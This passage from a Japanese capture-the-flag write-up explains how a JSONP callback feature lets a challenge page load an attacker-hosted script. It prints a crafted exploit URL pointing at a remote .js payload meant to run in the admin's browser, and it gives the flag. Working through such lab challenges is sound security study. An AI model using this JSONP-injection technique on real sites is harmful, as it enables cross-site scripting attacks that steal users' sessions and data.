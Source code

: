 なにやらけったいな仕様が存在することがわかる。JSONPとは古のクロスオリジンのデータ伝搬手法だが、要はscriptタグをページに挿入するので、怪しいURLを食わせたら即XSSとなる危険な代物である。この仕様を悪用して以下のようなURLを生成するとXSSが発火する。

[http://3.114.12.105:10007/#https://hakatashi.com/temp.js?callback=?&hoge](http://3.114.12.105:10007/#https://hakatashi.com/temp.js?callback=?&hoge)

あとは https://hakatashi.com/temp.js に攻撃用のペイロードを設置してAdminのブラウザに上のURLを転送するだけである。簡単簡単。

フラグ: `SWCTF{now_listening_Maria_walking_across_the_100000000_pieces}`

楽曲: [Maria Walking Across The 100000000 Pieces - ito-02](https://soundcloud.com/ito-02/yujurie-maria-walking-across-the-100000000-pieces)
